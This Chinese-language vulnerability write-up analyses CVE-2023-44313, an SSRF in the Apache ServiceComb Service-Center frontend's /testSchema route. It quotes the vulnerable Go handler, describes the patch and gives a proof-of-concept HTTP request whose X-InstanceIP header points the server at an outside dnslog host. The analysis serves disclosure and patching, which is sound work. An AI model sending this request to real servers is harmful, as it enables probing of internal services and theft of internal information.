





# Apache ServiceComb Service-Center SSRF 漏洞分析 CVE-2023-44313 - 先知社区

Apache ServiceComb Service-Center SSRF 漏洞分析 CVE-2023-44313

- - -

# 漏洞描述

Apache ServiceComb Service-Center 是 Apache 基金会的一个基于 Restful 的服务注册中心，提供微服务发现和微服务管理，在 ServiceComb Service-Center 中的 frontend 组件的契约测试功能存在 SSRF 漏洞，由于未验证请求的 instanceIP 参数，攻击者可以向/testSchema/下的路由发送恶意请求获取内部敏感信息。

# 影响版本

Apache ServiceComb Service-Center < 2.2.0

# 安全版本

Apache ServiceComb Service-Center 2.2.0

# 漏洞分析

首先在 github 上 diff 代码，结合漏洞通报的描述，可以快速发现漏洞点在在 frontend 组件的 SchemaHandler.go 中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240203042111-9b83470c-c208-1.png)

## 路由分析

将代码下载下来查看，可以发现 web 框架为 Echo 框架，其中 Echo 框架的路由定义非常简单直接创建 Echo 实例，如何进行定义路由和处理函数就行。我们可以通过下面代码快速了解。

```plain
package main

import (
    "net/http"
    "github.com/labstack/echo/v4"
)

func main() {
    // 创建一个 Echo 实例
    e := echo.New()

    // 定义一个简单的路由
    e.GET("/", func(c echo.Context) error {
        return c.String(http.StatusOK, "Hello, World!")
    })

    // 启动web服务器，监听在本地的1323端口
    e.Logger.Fatal(e.Start(":1323"))
}
```

在 schemaHandler.go 文件中 SchemaHandleFunc 是一个路由处理函数，在 Goland 中查找方法，我们可以发现是/testSchema/\*路由的处理函数，代码如下。通过对代码分析，我们可以知道代码实现了一个基于`echo`框架的 Go HTTP 服务器，首先我们要了解系统架构，是前后端分离的，server 代码的作用就是通过 echo 框架配置了一个静态文件服务器和对特定 API 路径的代理，将请求分发到到后端服务。

```plain
package server

import (
    "log"
    "net/url"
    "os"
    "path/filepath"

    "github.com/apache/servicecomb-service-center/frontend/schema"
    "github.com/labstack/echo/v4"
    "github.com/labstack/echo/v4/middleware"
)

func Serve(c Config) {
    e := echo.New()
    e.HideBanner = true
    // handle all requests by serving a file of the same name
    dir, err := os.Getwd()
    if err != nil {
        log.Fatalf("Cant get cwd, error: %s", err)
    }
    staticPath := filepath.Join(dir, "app")
    e.Static("/", staticPath)

    m := schema.Mux{Disable: os.Getenv("SCHEMA_DISABLE") == "true"}
    e.Any("/testSchema/*", m.SchemaHandleFunc)

    scProxy(c, e)

    log.Printf("Error: %s", e.Start(c.FrontendAddr))
}

// setup proxy for requests to service center
func scProxy(c Config, e *echo.Echo) {
    scUrl, err := url.Parse(c.SCAddr)
    if err != nil {
        log.Fatalf("Error parsing service center address:%s, err:%s", c.SCAddr, err)
    }

    targets := []*middleware.ProxyTarget{
        {
            URL: scUrl,
        },
    }
    g := e.Group("/sc")
    balancer := middleware.NewRoundRobinBalancer(targets)
    pcfg := middleware.ProxyConfig{
        Balancer: balancer,
        Skipper:  middleware.DefaultSkipper,
        Rewrite: map[string]string{
            "/sc/*": "/$1",
        },
    }
    g.Use(middleware.ProxyWithConfig(pcfg))
}
```

`pcfg := middleware.ProxyConfig`这里会重写路由规则：将/sc/*重写为/*，去掉了/sc 前缀，此时我们可以知道漏洞的路由为/testSchema。

## 漏洞点分析

在 server.go 代码中，进入/testSchema/路由前会读取环境变量的`SCHEMA_DISABLE`值决定是否开启/testSchema/路由`m := schema.Mux{Disable: os.Getenv("SCHEMA_DISABLE") == "true"}`，可以看到

在`SchemaHandleFunc`函数中会首先判断`m.Disable`，当为 true 时直接返回 403 Forbidden 状态并输出"schema is disabled"，默认都为 bool。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240203042222-c587baba-c208-1.png)

```plain
type Mux struct {
    // Disable represents frontend proxy service api or not
    Disable bool
}

func (m *Mux) SchemaHandleFunc(c echo.Context) (err error) {
    if m.Disable {
        c.Response().WriteHeader(http.StatusForbidden)
        _, _ = c.Response().Write([]byte("schema is disabled"))
        return
    }

    r := c.Request()

    //  protocol:= r.Header.Get("X-InstanceProtocol")
    //  sslActive:=r.Header.Get("X-InstanceSSL")
    var (
        response   *http.Response
        req        *http.Request
        instanceIP = r.Header.Get("X-InstanceIP")
        requestUrl = strings.Replace(r.RequestURI, "testSchema/", "", 1)
        url        = "http://" + instanceIP + requestUrl
    )

    switch r.Method {
    case "GET":
        req, err = http.NewRequest(http.MethodGet, url, nil)
    case "POST":
        req, err = http.NewRequest(http.MethodPost, url, r.Body)
    case "PUT":
        req, err = http.NewRequest(http.MethodPut, url, r.Body)
    case "DELETE":
        req, err = http.NewRequest(http.MethodDelete, url, r.Body)
    default:
        c.String(http.StatusNotFound, "Method not found")
        return

    }

    if err != nil {
        c.String(http.StatusInternalServerError,
            fmt.Sprintf("( Error while creating request due to : %s", err))
        return
    }

    for key, values := range r.Header {
        for _, val := range values {
            if key == "Accept-Encoding" || key == "Connection" || key == "X-Schemaname" || key == "Cookie" || key == "User-Agent" || key == "AppleWebKit" || key == "Dnt" || key == "Referer" || key == "Accept-Language" {
                continue
            } else {
                req.Header.Add(key, val)
            }

        }
    }
    req.Header.Add("Content-Type", "application/json")
    client := http.Client{Timeout: time.Second * 20}
    response, err = client.Do(req)
    if err != nil {
        c.String(http.StatusNotFound,
            fmt.Sprintf("( Error while sending request due to : %s", err))
        return
    }
    respBody, err := ioutil.ReadAll(response.Body)
    if err != nil {
        c.String(http.StatusNotFound,
            fmt.Sprintf("(could not fetch response body for error %s", err))
        return
    }

    c.String(http.StatusOK, string(respBody))
    return nil
}
```

分析以上代码，`r := c.Request()`获取请求对象，从声明变量中可以发现`instanceIP = r.Header.Get("X-InstanceIP")`将请求头中的 X-InstanceIP 做为实例 IP，`strings.Replace(r.RequestURI, "testSchema/", "", 1)`替换掉请求 URI 中的"testSchema/，然后将其与获取的`instanceIP`构造成新的请求 URL，然后根据原始请求的 HTTP 方法，创建新请求对象。后面就是对请求方式判断，以及添加原始请求的头部字段操作。最后`response, err = client.Do(req)`使用`client.Do`发送新请求，然后返回请求内容。

## 构造 poc

根据以上分析，我们知道了漏洞的大致流程当访问/testScqhema/\*路由时，`SchemaHandleFunc`函数，会从请求中读取`X-InstanceIP`参数，并将其定义为`instanceIP`，然后再将请求 URI 中的"testSchema/"去掉，再将其与获取的 ip 一起构造新的请求 URL，并访问。并且`X-InstanceIP`和请求 URL 我们都可控，就可以构造任意 http 请求，让服务器访问。

```plain
GET /testSchema/sc HTTP/1.1
Host: 127.0.0.1:30103
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-InstanceIP:6e65vf.dnslog.cnn
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Mon, 14 Mar 2022 14:09:37 GMT
Connection: close
```

# 漏洞复现

[](https://xzfile.aliyuncs.com/media/upload/picture/20240203042447-1bd7d01c-c209-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240203042503-253c245a-c209-1.png)

# 总结

通过分析可以发现，写这个方法的主要用途是将/testScqhema/\*路由作为一个代理，通过它转发请求到另一个服务，并返回该服务的响应。只是对于请求中的 instanceIP 参数未经过任何校验，可以看到修复的思路也是新增了一个字段 `SchemaTestCIDR，`存储一个 IP 网段，这个字段用于之后`checkInstanceHost`方法检查请求的 IP 是否合法。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240203042237-cebafe80-c208-1.png)

# 修复建议

将组件 github.com/apache/servicecomb-service-center 升级至 2.2.0 及以上版本

来源：[https://avd.aliyun.com/detail?id=AVD-2023-44313](https://avd.aliyun.com/detail?id=AVD-2023-44313)  
[http://www.openwall.com/lists/oss-security/2024/01/31/4](http://www.openwall.com/lists/oss-security/2024/01/31/4)  
[https://lists.apache.org/thread/kxovd455o9h4f2v811hcov2qknbwld5r](https://lists.apache.org/thread/kxovd455o9h4f2v811hcov2qknbwld5r)
